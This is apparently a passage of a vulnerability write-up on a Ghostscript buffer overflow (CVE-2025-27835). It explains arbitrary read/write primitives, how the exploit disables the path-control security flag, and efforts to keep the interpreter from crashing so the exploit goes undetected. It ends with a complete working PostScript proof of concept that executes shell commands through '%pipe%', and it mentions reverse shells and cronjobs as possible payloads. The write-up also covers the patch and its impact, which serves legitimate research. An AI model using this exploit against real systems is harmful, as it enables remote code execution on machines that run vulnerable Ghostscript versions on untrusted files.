

```
First element: OBJARR[0]			
MAGIC[0:8] = STROBJ tas struct		
MAGIC[8:16] = ptr to STROBJ string		

Second element: OBJARR[1]			
MAGIC[16:24] = ARROBJ tas struct		
MAGIC[24:32] = ptr to ARROBJ array
```

In the end, `STRPTR` is just a pointer to `STROBJ's` pointer and `ARRPTR` is just a pointer to `ARROBJ's` pointer. Therefore, if we write to `STRPTR's` string, then we overwrite `STROBJ's` pointer.

As a small note, `/arrptr` and `/ARRPTR` do the exact same thing, as they are both of type string and point to `ARROBJ’s` pointer.

We now define some functions to leverage this type confusion.
- `/copystr`: simply takes two strings and copies data from one to another

```postscript
/copystr {
    /_length exch def
    /_srcidx exch def
    /_srcstr exch def
    /_dstidx exch def
    /_dststr exch def
    _length {
        _dststr _dstidx _srcstr _srcidx get put
        /_srcidx _srcidx 1 add def
        /_dstidx _dstidx 1 add def
    } repeat
} bind def
```

- `/ptradd`: takes a string variable in which its value is a pointer (say pointer A) and increments A by an amount

```postscript
/ptradd {
    /_inc exch def
    /_ptr exch def
    /_new 8 string def
    0 1 7 {
        /_i exch def
        /_b _ptr _i get _inc add def
        /_inc _b -8 bitshift def
        _new _i _b 255 and put
    } for
    _new
} bind def
```

- `/arbrd`: overwrites the pointer of `STROBJ` by writing to `STRPTR`, and then reads what `STROBJ` is pointing at by accessing it from `OBJARR`

```postscript
/arbrd {
    /_buf exch def
    /_adr exch def
    STRPTR 0 _adr 0 8 copystr
    _buf 0 OBJARR 0 get 0 _buf length copystr
} bind def
```

- `/arbwr`: does the same thing as arbrd, but writes to what `STROBJ` is pointing at instead of reading it

```postscript
/arbwr {
    /_buf exch def
    /_adr exch def
    STRPTR 0 _adr 0 8 copystr
    OBJARR 0 get 0 _buf 0 _buf length copystr
} bind def
```

#### Disabling the security flags

Now our goal is to locate the security flags. We do this by traversing the malloc headers, which form a doubly linked list. This is easily done with the `plist` command in pwndbg:




```postscript
{
    /arrsz 8 string def

    /next arrptr -40 ptradd -48 ptradd def
    next 16 ptradd arrsz arbrd
    arrsz <d886010000000000> eq { exit } if % 100056

    /next arrptr -56 ptradd -48 ptradd def
    next 16 ptradd arrsz arbrd
    arrsz <e886010000000000> eq { exit } if % 100072

    (unknown header layout) = quit
} loop
```

We first check at an offset -88 and -104 from the start of `OBJARR`, checking if the value at that offset is equal to the size of `ARROBJ` to verify which type of chunk header layout Ghostscript is using (in 10.04.0’s case it is offset -88). (This is the whole reason why `ARROBJ` must be size 6250, since we check if it’s size `0x186d8 = 16*6250 + 56`). At both of these offsets, the PoC then checks for the size for that malloc block (100056/0x186d8 and 100072/0x186e8) which can be seen in the image above as the first two malloc chunk headers in the list. If the size check passes, then the exploit code can continue knowing the pointer is a valid malloc chunk header.

Once again, we are traversing the malloc chunk headers linked list, searching for one where the next node has a `cname` equal to `“gs_lib_ctx_init(core)”`. Note that the *next pointer is offset 0 from the structure and `cname` is offset 32 from the structure. The node with the matching string seems to always be the third to last node in the linked list and the linked list seems to be a bit short of 500 nodes each time.


After finding the correct pointer, the exploit stores it in the vairable `head`. 48 bytes after `head` is a struct of type `gs_lib_ctx_core_t` which contains a field called `“is_path_control_active”` which is a boolean that will let Postscript execute arbitrary commands. The exploit then sets this field to 0, thus allowing the execution of arbitrary commands.

**Flag before being turned off:**


**Flag after being turned off:**



This is effectively the end of the exploit, as all thats left to do is run any command we want. In the case of the PoC, it runs `ls` and prints the output to the terminal but this could be any command such as a reverse shell, creating a cronjob, reading a file, etc.

```postscript
(%pipe%ls -laf) (w) file
```

As a summary of everything the exploit just did:
1. Initialized `OBJARR`, `STROBJ`, `ARROBJ`, and `TARGET` such that it would be able to arbitrarily read/write and get malloc header primitives after the buffer overflow.
2. Created a malicious font with `SOURCE1` and `SOURCE2` to conduct a buffer overflow onto a copy of `OBJARR` in `TARGET`, setting its type to a string.
3. Used the type confusion to traverse the malloc chunk linked list until we find `gs_lib_ctx_init(core)`
4. Overwrote the `path_control_active` field in the context struct and execute arbitrary commands

### Next Steps

The very last thing the exploit does is infinite loop in Postscript:

```postscript
{ 1 pop } loop
```

When Ghostscript files are run, they will typically exit back to the interpreter. However, after executing our payload, it will enter into an infinite loop (intentionally). This is because the interpreter will crash (yes actually segfault) if we attempt to exit from the script, as we overwrite the header data for the clump containing /target during our buffer overflow. This is interesting because Ghostscript actually handles crashes and will exit gracefully if something goes wrong.

**Segfault:**


**Graceful crash:**


When the interpreter tries to clean up the GhostScript heap, it will try to clean up the overwritten chunk and crash when it tries to access the nonexistent header data. 

<!--  -->

**Before buffer overflow:**

<br />


**After buffer overflow:**

<br />


Our goal was to edit the PoC such that the interpreter doesn’t crash or hang after the execution of the script so that the exploit can remain undetected. Obviously the point of a PoC is just to show that the exploit actually works but we wanted to see how someone would go about making it useful in a real world scenario.

We had two avenues to investigate: Controlling the data that the clump header data is overwritten with, or preventing Ghostscript from trying to clean up the clump.

Attempts to control the data that overwrites the clump header data weren’t fruitful. We needed a way to control the 1760 bytes of data immediately after the data of `SOURCE1` (specifically the 60 or so bytes at the end), so that we could repair the clump data for the clump containing /target.  We tried to resize the variables in the exploit so that `SOURCE1’s` data ended up adjacent to other data that we controlled. We found that the variables were simply positioned in the order that they were defined/allocated. However, as discussed earlier, the clumps that we are working with only accept larger sizes (> ~250000 bytes), while smaller sized allocations go on the normal heap or other clumps. Additionally, since Ghostscript allocates a large amount of padding to the data for `refs` that scales with the size of the allocation, we found that we would not be able to get controllable data into the 1760 bytes, as any data adjacent to `SOURCE1` would be padding data of length > 1760.

We then attempted to attack the heap. Further investigation revealed that the pointer to the clump is stored in the (non-Ghostscript) heap. This was promising, as we could potentially use the read/write primitives to overwrite the heap such that it loses the reference to the corrupted clump, potentially delaying or even preventing a crash. The crash happens in the `gc_objects_clear_marks` function called by `gs_gc_reclaim`. `gs_gc_reclaim` attempts to go through the objects in each clump and mark them to be freed or consolidated. It does this by traversing through the tree that contains references to every clump. However, references to adjacent nodes, as well as other data, are only stored in the header data for each clump, which are located on the Ghostscript heap. This is inaccessible to our read/write primitives, which stopped us in our tracks. The pointer for every clump is stored on the normal heap, so in theory if we can find some other structure in the heap containing the clumps or find the section in memory where they are stored, we can attempt to traverse it and linearly search for a clump with data unique to the clump (if any exists on the heap) or by its order. which is very far in the heap memory. Ultimately, we didn’t have the time to fully test this approach to see if it would be feasible, but any implementation would also likely be difficult to get consistently working, as it would be sensitive to variations in ordering on the heap or Ghostscript heap (i.e. if the interpreter was used before running the exploit).

## Impact

This affects all x64 Linux systems running Ghostscript versions prior to 10.05.0. The exploit also worked on an ARM 7.2 machine (again running Ghostscript versions prior to 10.05.0). 

## Mitigations
### GhostScript v10.05.1 Official Patch
As of GhostScript version 10.05.1, the exploit has been patched by changing the vulnerable memcpy line from copying `l * sizeof(short)` to simply `l` bytes. 



## References

- [Source Code](https://github.com/ArtifexSoftware/ghostpdl/blob/41b1cf43a0705f097699261b5738cbdbed50091f/psi/zbfont.c)
- [Ghostscript 10.04.0](https://github.com/ArtifexSoftware/ghostpdl-downloads/releases/tag/gs10040)
- [CVE](https://www.cve.org/CVERecord?id=CVE-2025-27835)
- [Bug Report](https://bugs.ghostscript.com/show_bug.cgi?id=708131)
- [Patch](https://cgit.ghostscript.com/cgi-bin/cgit.cgi/ghostpdl.git/commit/?id=920fae68870)
- [pwndbg](https://github.com/pwndbg/pwndbg)

## Full Proof of Concept Code

```postscript
% gs -q -sDEVICE=txtwrite -sOutputFile=/dev/null glyphunicode.ps

500000000 setvmthreshold

/REFIDX 249888 def
/REFOFS 3248640 def

/STROBJ 1000 string def
/ARROBJ 6250 array def
/OBJARR 32 array def
OBJARR 0 STROBJ put
OBJARR 1 ARROBJ put
/TARGET null def

/MAGIC null def
/STRPTR null def
/ARRPTR null def

% <dststr> <dstidx> <srcstr> <srcidx> <length> copystr -
/copystr {
    /_length exch def
    /_srcidx exch def
    /_srcstr exch def
    /_dstidx exch def
    /_dststr exch def
    _length {
        _dststr _dstidx _srcstr _srcidx get put
        /_srcidx _srcidx 1 add def
        /_dstidx _dstidx 1 add def
    } repeat
} bind def

% <string> <int> ptradd <string>
/ptradd {
    /_inc exch def
    /_ptr exch def
    /_new 8 string def
    0 1 7 {
        /_i exch def
        /_b _ptr _i get _inc add def
        /_inc _b -8 bitshift def
        _new _i _b 255 and put
    } for
    _new
} bind def

% <string-address> <string-buffer> arbrd -
/arbrd {
    /_buf exch def
    /_adr exch def
    STRPTR 0 _adr 0 8 copystr
    _buf 0 OBJARR 0 get 0 _buf length copystr
} bind def

% <string-address> <string-data> arbwr -
/arbwr {
    /_buf exch def
    /_adr exch def
    STRPTR 0 _adr 0 8 copystr
    OBJARR 0 get 0 _buf 0 _buf length copystr
} bind def

/DONE {
    /MAGIC TARGET REFIDX get def
    /STRPTR MAGIC 8 8 getinterval def
    /ARRPTR MAGIC 24 8 getinterval def

    (patch) = flush

    /arrptr 8 string def
    arrptr 0 ARRPTR 0 8 copystr

    {
        /arrsz 8 string def

        /next arrptr -40 ptradd -48 ptradd def
        next 16 ptradd arrsz arbrd
        arrsz <d886010000000000> eq { exit } if % 100056

        /next arrptr -56 ptradd -48 ptradd def
        next 16 ptradd arrsz arbrd
        arrsz <e886010000000000> eq { exit } if % 100072

        (unknown header layout) = quit
    } loop

    {
        /head next def

        /next 8 string def
        /cname 8 string def
        /cname_str 21 string def

        head next arbrd
        head 32 ptradd cname arbrd
        cname cname_str arbrd

        cname_str (gs_lib_ctx_init(core)) eq { exit } if
    } loop

    /buf 4 string def
    /ptr1 head 188 ptradd def
    /ptr2 head 204 ptradd def
    ptr1 buf arbrd buf <01000000> eq { ptr1 <00000000> arbwr } if
    ptr2 buf arbrd buf <01000000> eq { ptr2 <00000000> arbwr } if

    (exec) = flush
    (%pipe%id) (w) file

    (done) =
    { 1 pop } loop

    quit
} def  % DONE

/MAIN {

/Myfont
<<
    /FontName /Myfont
    /FontType 1
    /FontMatrix [1 0 0 1 0 0]
    /Private << /lenIV -1 /Subrs [ <0E> ] >>
    /Decoding 0
    /Encoding [ /cs0 /cs1 /cs2 ]
    /CharStrings <<
        /.notdef <0E>
        /cs0 { TEXT 0 1 put /TARGET 312500 array def TARGET REFIDX OBJARR put }
        /cs1 <0E>
        /cs2 { DONE }
    >>
    /WeightVector [1]
    /$Blend {}
    /FontInfo <<
        /BlendAxisTypes [ /foo ]
        /BlendDesignPositions [[1]]
        /BlendDesignMap [[[1]]]
        /GlyphNames2Unicode << >>
    >>
    /Blend <<
        /FontBBox [[1]]
        /Private << >>
    >>
>>
.buildfont1
/FONT exch def
/FONTNAME exch def

FONT setfont

(init) = flush

/TEXT 625000 string def
/SOURCE2 4000002 string def
/SOURCE1 4000002 string def
SOURCE2 REFOFS <7e12> putinterval

FONT /FontInfo get /GlyphNames2Unicode get 1 SOURCE1 put
FONT /CharStrings get /.notdef undef
TEXT 0 0 put
TEXT 1 2 put

(trigger) = flush

0 750 moveto
TEXT show

} def  % MAIN

MAIN
quit
```